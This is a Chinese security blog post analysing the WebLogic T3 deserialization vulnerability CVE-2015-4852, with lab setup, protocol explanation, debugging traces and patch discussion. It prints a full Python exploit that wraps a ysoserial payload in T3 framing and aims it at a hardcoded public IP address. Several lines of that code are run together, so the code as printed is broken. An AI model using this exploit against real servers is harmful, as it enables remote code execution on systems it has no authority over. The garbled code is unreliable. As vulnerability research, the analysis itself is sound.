# CVE-2015-4852 Weblogic T3 反序列化分析 - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/16965161.html`](https://www.cnblogs.com/hetianlab/p/16965161.html)

## 0x01 前言

看到很多师傅的面经里面都有提到 Weblogic 这一个漏洞，最近正好有一些闲暇时间，可以看一看。

因为环境上总是有一些小问题，所以会在本地和云服务器切换着调试。

## 0x02 环境搭建

太坑了，我的建议是用本地搭建的方法，因为用 docker 搭建，会产生依赖包缺失的问题，本地搭建指南 [`www.penson.top/article/av40`](https://www.penson.top/article/av40)

这里环境安装用的是 奇安信 A-team 大哥提供的脚本，不得不说实在是太方便了！省去了很多环境搭建中不必要的麻烦

链接：[`github.com/QAX-A-Team/WeblogicEnvironment`](https://github.com/QAX-A-Team/WeblogicEnvironment)

下载对应版本的 JDK 和 Weblogic 然后分别放在 jdks 和 weblogics 中

JDK 安装包下载地址：[`www.oracle.com/technetwork/java/javase/archive-139210.html`](https://www.oracle.com/technetwork/java/javase/archive-139210.html)

Weblogic 安装包下载地址：[`www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html`](https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html)

我这里直接用的 kali 搭建，需要先把 jdk 和 weblogic 放到文件夹里面，如图


首先要先改写一下 Dockerfile，原作者写的 Dockerfile 有一点小问题

```
# 基础镜像
FROM centos:centos7
# 参数
ARG JDK_PKG
ARG WEBLOGIC_JAR
# 解决 libnsl 包丢失的问题
# RUN yum -y install libnsl
​
# 创建用户
RUN groupadd -g 1000 oinstall && useradd -u 1100 -g oinstall oracle
# 创建需要的文件夹和环境变量
RUN mkdir -p /install && mkdir -p /scripts
ENV JDK_PKG=$JDK_PKG
ENV WEBLOGIC_JAR=$WEBLOGIC_JAR
​
# 复制脚本
COPY scripts/jdk_install.sh /scripts/jdk_install.sh 
COPY scripts/jdk_bin_install.sh /scripts/jdk_bin_install.sh 
​
COPY scripts/weblogic_install11g.sh /scripts/weblogic_install11g.sh
COPY scripts/weblogic_install12c.sh /scripts/weblogic_install12c.sh
COPY scripts/create_domain11g.sh /scripts/create_domain11g.sh
COPY scripts/create_domain12c.sh /scripts/create_domain12c.sh
COPY scripts/open_debug_mode.sh /scripts/open_debug_mode.sh
COPY jdks/$JDK_PKG .
COPY weblogics/$WEBLOGIC_JAR .
​
# 判断 jdk 是包（bin/tar.gz）weblogic 包（11g/12c）载入对应脚本
RUN if [ $JDK_PKG == *.bin ] ; then echo ****载入 JDK bin 安装脚本**** && cp /scripts/jdk_bin_install.sh /scripts/jdk_install.sh ; else echo ****载入 JDK tar.gz 安装脚本**** ; fi
RUN if [ $WEBLOGIC_JAR == *1036* ] ; then echo ****载入 11g 安装脚本**** && cp /scripts/weblogic_install11g.sh /scripts/weblogic_install.sh && cp /scripts/create_domain11g.sh /scripts/create_domain.sh ; else echo ****载入 12c 安装脚本**** && cp /scripts/weblogic_install12c.sh /scripts/weblogic_install.sh && cp /scripts/create_domain12c.sh /scripts/create_domain.sh  ; fi
​
# 脚本设置权限及运行
RUN chmod +x /scripts/jdk_install.sh
RUN chmod +x /scripts/weblogic_install.sh
RUN chmod +x /scripts/create_domain.sh
RUN chmod +x /scripts/open_debug_mode.sh
# 安装 JDK
RUN /scripts/jdk_install.sh
# 安装 weblogic
RUN /scripts/weblogic_install.sh
# 创建 Weblogic Domain
RUN /scripts/create_domain.sh
# 打开 Debug 模式
RUN /scripts/open_debug_mode.sh
# 启动 Weblogic Server
# CMD ["tail","-f","/dev/null"]
CMD ["/u01/app/oracle/Domains/ExampleSilentWTDomain/bin/startWebLogic.sh"]
EXPOSE 7001
```

接着起环境

> ```
> docker build --build-arg JDK_PKG=jdk-7u21-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=wls1036_generic.jar  -t weblogic1036jdk7u21 .
> ​
> docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic1036jdk7u21 weblogic1036jdk7u21
> ```

再把 docker 当中的一些依赖文件夹拷出来，但是这一步经过我测试，感觉 docker 当中的 lib 存在一定问题，所以后续把 weblogic 的库拿进来就可以了，对应的代码我会放在 GitHub 上，避免师傅们踩坑。

【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

## 0x03 基础知识

### 关于 Weblogic

首先说一说 Weblogic 吧，Weblogic 就和 Tomcat 差不多，从功能上来说就是两个 Web 服务端，也是启动器。

和 Tomcat 不同的地方在于，Weblogic 可以自己部署很多东西，要知道，在 Tomcat 当中，这些都是需要自己写代码的。

### T3 协议

T3 协议其实是 Weblogic 内独有的一个协议，在 Weblogic 中对 RMI 传输就是使用的 T3 协议。在 RMI 传输当中，被传输的是一串序列化的数据，在这串数据被接收后，执行反序列化的操作。

在 T3 的这个协议里面包含请求包头和请求的主体这两部分内容。

我们可以拿 CVE-2015-4852 的 EXP 来讲解

**EXP 如下**

```
import socket
import sys
import struct import re
import subprocess
import binascii
​
def get_payload1(gadget, command):
    JAR_FILE = '.\ysoserial.jar' popen = subprocess.Popen(['java', '-jar', JAR_FILE, gadget, command], stdout=subprocess.PIPE) return popen.stdout.read()
​
def get_payload2(path):
    with open(path, "rb") as f: return f.read()
​
def exp(host, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))
​
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n".encode()
    sock.sendall(handshake)
    data = sock.recv(1024)
    pattern = re.compile(r"HELO:(.*).false")
    version = re.findall(pattern, data.decode()) if len(version) == 0:
        print("Not Weblogic") return ​
    print("Weblogic {}".format(version[0]))
    data_len = binascii.a2b_hex(b"00000000") #数据包长度，先占位，后面会根据实际情况重新
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006") #t3 协议头
    flag = binascii.a2b_hex(b"fe010000") #反序列化数据标志
    payload = data_len + t3header + flag + payload
    payload = struct.pack('>I', len(payload)) + payload[4:] #重新计算数据包长度
    sock.send(payload)
​ if __name__ == "__main__":
    host = "81.68.120.14" port = 7001 gadget = "Jdk7u21" #CommonsCollections1 Jdk7u21
    command = "Calc" ​
    payload = get_payload1(gadget, command)
    exp(host, port, payload)
```

这里有一个小坑，我直接运行 py 程序是不行的，会回显 Not Weblogic，因为 python socket 如果是频繁发包，会被服务端所拒绝，所以需要以 debug 模式运行。当然如果增添 sleep 应该也是可以实现的。

#### Weblogic 请求包头

我们需要通过 Wireshark 对这一个流量包执行抓包操作，后续抓到包的请求头如图


这一个就是它请求包的头

> ```
> t3 12.2.1 AS:255 HL:19 MS:10000000 PU:t3://us-l-breens:7001
> ```

在发送该请求包头后，服务端 Weblogic 会有一个响应，内容如下

> ```
> HELO:10.3.6.0.false
> AS:2048
> HL:19
> ```

HELO 后面的内容则是被攻击方的 Weblogic 版本号，也就是说，在发送正确的请求包头后，服务端会进行一个返回 Weblogic 的版本号。

#### Weblogic 请求主体

请求主体，也就是发送的数据，这些数据分为七部分内容，此处借用 z_zz_zzz 师傅的[修复 weblogic 的 JAVA 反序列化漏洞的多种方法](http://drops.xmd5.com/static/drops/web-13470.html)文章中的一张图


第一个非 Java 序列化数据，也就是我们的请求头：`t3 12.2.1 AS:255 HL:19 MS:10000000 PU:t3://us-l-breens:7001`

后面第 n 部分的数据，其实是不限制的，也就是说，我可以只有一部分的 Java 序列化数据，也可以有七部分的 Java 序列化数据，这并不重要，我们可以看观察一下 Wireshark 抓的包



在 `ac ed 00 05` 之后的内容便是序列化的数据，所以如果我们要进行攻击，应该是对于这一串序列化的数据进行恶意构造，让服务端在反序列化的时候发起攻击。

而此处，如果有多个 Java 序列化的数据，可以对任一一个数据进行攻击即可。


## 0x04 漏洞分析与调试

### 寻找尾部漏洞点

毕竟是反序列化的漏洞，思考了一下从两个点入手。

1、是否存在 Jndi 注入 2、是否有能够命令执行的利用点

#### Jndi 注入的链尾探索

怀着这样的思路，先全局搜索 `Jndi` 关键词，感觉我这样的做法应该很不精准，但是暂时找不到其他好的方法，应该是要借助一些插件或者工具什么的了。


这里有一个 `JndiServiceImpl` 类，看着不错，点进去看看，它的 `invoke()` 方法同样吸引人，点过去之后发现疑似存在 jndi 注入



不过这里虽然参数 ———— `this.implJndiName` 是可控的，但是无法进行攻击，因为只能对 `java:comp/env/` 进行探测，无法对 `rmi, jndi, ldap` 三者进行有效的调用，初步告吹了。

重新换一个类，这里我找到的是 `JndiAttrs` 类，在它的构造函数中存在调用 ldap 的现象，在第 40 行



从第六个字符开始截取，存在一些绕过手法，这个并不要紧，而 `providerURL` 最后会被 put 进 `env` 当中，env 是一个 Properties 类



继续往下分析，env 作为 `InitialDirContext` 类的构造函数的传参。



一路跟进，是到了 `InitialContext` 的构造函数，跟进 `init()` 方法



跟进 `getDefaultInitCtx()` 方法，再跟进 `NamingManager.getInitialContext(myProps)`，发现只是 loadClass 了一个对象，寄，白给。





> 诸如此类链尾的尝试还有很多，师傅们可以自行尝试，我这只是在抛砖引玉。由于篇幅限制，后续内容我们还是集中于 Weblogic CVE-2015-4852 的漏洞分析。

### 漏洞分析

通过命令 `ls -r ./* | grep -i commons`，抑或是通过 maven dependency analyze，都可以分析得到 weblogic 10.3.6 的包里面包含有 Commons Collections 3.2.0 的包。


所以我们现在已经有了链尾，需要寻找一个合适的入口类，这里就直接借用其他师傅们的研究成果了，反序列化的入口类是在 `InboundMsgAbbrev#readObject` 处，下个断点开始调试。

Weblogic T3 对于 RMI 传递过来的数据在处理上还是比较绕的，不过有了前面 z_zz_zzz 师傅文章中的那张图，在理解上能够变得简单得多。

> 开始调试



先跟进 `ServerChannelInputStream` 的构造函数，`ServerChannelInputStream` 这个类的作用是处理服务端收到的请求头信息



继续跟进 `getServerChannel()` 方法



我们可以关注一下目前的 `this.connection` 是什么

`connection` 是 `weblogic.rjvm.t3.MuxableSocketT3$T3MsgAbbrevJVMConnection@49be5302` 这个类，在 `this.connection` 中主要存储了一些 RMI 连接的数据，包括端口地址等



跟进 `getChannel()` 方法，开始处理 T3 协议




T3 头处理结束，重新回到 `InboundMsgAbbrev#readObject` 处，跟进 `readObject()` 方法

一路跟进至 `InboundMsgAbbrev#resolveClass()` 中，这里的调用栈如下

```
resolveClass:108, InboundMsgAbbrev$ServerChannelInputStream (weblogic.rjvm)
readNonProxyDesc:1610, ObjectInputStream (java.io)
readClassDesc:1515, ObjectInputStream (java.io)
readOrdinaryObject:1769, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:66, InboundMsgAbbrev (weblogic.rjvm)
read:38, InboundMsgAbbrev (weblogic.rjvm)
```

`resolveClass()` 方法是用来处理类的，这些类在经过反序列化之后会走到 `resolveClass()` 方法这里，此时的 var1，正是我们的 `AnnotationInvocationHandler` 类


这时候的 `AnnotationInvocationHandler` 类并不会被直接拿去反序列化，因为 Weblogic 服务端需要先加载所有反序列化的内容。在将所有数据反序列化解析完毕之后（也可以说只是做了 `Class.forName()` 的操作之后），才会开始进行真正的反序列化


后续就是熟悉的 CC1 链环节，这里不再展开



### PoC 理解

PoC 本质就是把 ysoserial 生成的 payload 变成 T3 协议里的数据格式，我们需要写入的有几段东西。

1、Header，这代表了数据包长度 2、T3 Header3、反序列化标志，也就是 `fe 01 00 00`

所以这三段话是这么来的

> ```
> header = binascii.a2b_hex(b"00000000")
> t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
> desflag = binascii.a2b_hex(b"fe010000")
> ```


## 0x05 漏洞修复

### 在 resolveClass 处打补丁

在前面分析的过程中，我们能够看出来，加载类其实是通过调用 `resolveClass()` 方法，再通过反射获取到任意类的，所以官方选择了基于 `resolveClass()` 去做黑名单校验。

如果在 `resolveClass()` 处加入一个过滤，在 `readNonProxyDesc` 调用完 `resolveClass` 方法后，后面的反序列化操作无法完成。

### 通过 Web 代理与 nginx 等负载均衡防御

Web 代理的方式只能转发 HTTP 的请求，而不会转发 T3 协议的请求，这就能防御住 T3 漏洞的攻击。当然这对于业务上有很大的影响。同理负载均衡也是，不过负载均衡需要自己手动设置。

### 黑名单 bypass

Oracle 官方对于 CVE-2015-4852 的修复是通过黑名单限制的。



黑名单中的类不会被反序列化

绕过思路如下



其实就是由 `ServerChannelInputStream` 换到了自身的 `ReadExternal#InputStream`，这一个 bypass 也被收录为 CVE-2016-0638；后续会对这一个漏洞进行分析。

## 0x06 小结

从原理角度上来说还是比较简单的，不过理解 T3 的传输，并且构造恶意 PoC 的过程是非常值得学习的，CVE-2015-4852 为一些类似的攻击提供了思路。

******更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)******